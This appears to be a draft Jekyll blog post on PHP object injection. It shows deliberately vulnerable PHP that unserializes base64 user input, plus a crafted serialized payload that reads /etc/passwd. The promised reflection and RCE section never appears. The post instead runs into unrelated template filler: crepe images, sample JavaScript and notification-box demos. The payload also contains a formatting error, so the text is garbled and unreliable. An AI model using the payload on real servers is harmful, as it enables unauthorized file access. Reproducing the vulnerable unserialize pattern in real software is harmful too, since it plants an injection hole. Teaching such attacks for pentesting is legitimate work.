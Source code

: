 ```yaml
---
layout: 
title: PHPObjectInjection
subtitle: LFI to RCE
# gh-repo: daattali/beautiful-jekyll
gh-badge: [star, fork, follow]
tags: [WebAppVulnerabilities, Pentesting]
comments: true
---
```


Hello bug-hunters, today we are gonna talk about PHPObjectInjection and leveraging the power of Reflection to modify the serialized objects and access any arbitrary files from the server, later we will learn how to convert it into a RCE (Remote Code Execution). let the hunt begin;

## What is PHPObjectInjection?

Before we talk about the attack, let's undertsand what is Serialization? I hope you must be havinga an idea around it, lets have a revision,  

Serialization is basically converting a set of data structure or the objects into a stream of bytes to transmit it to a memory, a database, or a file. The main advantage of this technology is to save the state of an object in order to be able to recreate it whenever needed, eg. video games, etc.

**Areas of Risks**

Along with the advantage this technology also has its disadvantages. This vulnerability could occur when a user-supplied input is not appropriately sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, a malacious actor could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope.

In order to successfully exploit a PHP Object Injection vulnerability the following two conditions must be met:

  1. The application must have a class which implements a PHP magic method (such as __wakeup or __destruct) that can be used to carry out malicious attacks, or to start a “POP chain”.
  2. All of the classes used during the attack must be declared when the vulnerable unserialize() is being called, otherwise object autoloading must be supported for such classes.

## Attack Story

During a recent Pen Test I came across an interesting piece of PHP code that could lead to RCE, but the exploitation was bit tricky. After spending some sleepless nights trying to break this code, I identified that both application and system level code execution was possible using the vulnerability.

The vulnerable Code:

    /*<?php
  class HTMLFile
  {
    public $filename='help.html';
    public $bla =  1;
    public function __toString()
    {
        return '<iframe src=' . $this->filename ."></iframe>";
    }
  }
  class IncludeFile
  {
    public $filename = '';
    public function __toString()
    {
        include $this->filename;
        return "<br /><br />";
    }
  }
    if (isset($_GET['file'])){
    $htmlobject = unserialize(base64_decode($_GET['file']));
  } else {
    $htmlobject = new HTMLFile();
  }
  ?> 
    <?php echo $htmlobject; ?>*/

In the above code, a user controlled value can be passed on to a PHP un-serialization function. The application accepts a "filename" which gets called, and the output is then fed to php unserialize module. With the above bug both application level and system level code executions is possible. For exploiting this vulenarability both the conditions are satisfied. 

**Serialization example:**

Serializing a 3 char string array

![] (https://github.com/InfoSecAntara/theantaramane/tree/main/assets/img/sample_serializled_code.png)

**Understanding the serialized string**

![] (https://github.com/InfoSecAntara/theantaramane/tree/main/assets/img/understanding_serialzed.png)


In our case, I found an instance where the "file" parameter was carrying a base64 encoded payload, later identified to be a serialized object as following;

![] (https://github.com/InfoSecAntara/theantaramane/tree/main/assets/img/instance.png)

Deserialized form:

"O:8:"HTMLFile":1:{s:8:"filename";s:9:"help.html";}"

At the response side if you'd see, we have another code which has class named "IncludeFile" a vulnerable function "filename" and a magic function "function __toString()", let's make our own payload

This is our payload; pretty easy to understand, I have just replaced the class name, make sure the string char lengths are exactly matching to that string name as follows;

O:11:"IncludeFile":1:{s:8:"filename";s11:"/etc/passwd";}

This is cool, let's base64 encode; and boomm!! it worked

![Crepe] (https://github.com/InfoSecAntara/theantaramane/tree/main/assets/img/etc_passwd.png)

Using the power of reflection 





How about a yummy crepe?

![Crepe](https://s3-media3.fl.yelpcdn.com/bphoto/cQ1Yoa75m2yUFFbY2xwuqw/348s.jpg)

It can also be centered!

![Crepe](https://s3-media3.fl.yelpcdn.com/bphoto/cQ1Yoa75m2yUFFbY2xwuqw/348s.jpg){: .mx-auto.d-block :}

Here's a code chunk:

~~~
var foo = function(x) {
  return(x + 5);
}
foo(3)
~~~

And here is the same code with syntax highlighting:

```javascript
var foo = function(x) {
  return(x + 5);
}
foo(3)
```

And here is the same code yet again but with line numbers:

{% highlight javascript linenos %}
var foo = function(x) {
  return(x + 5);
}
foo(3)
{% endhighlight %}

## Boxes
You can add notification, warning and error boxes like this:

### Notification

{: .box-note}
**Note:** This is a notification box.

### Warning

{: .box-warning}
**Warning:** This is a warning box.

### Error

{: .box-error}
**Error:** This is an error box.
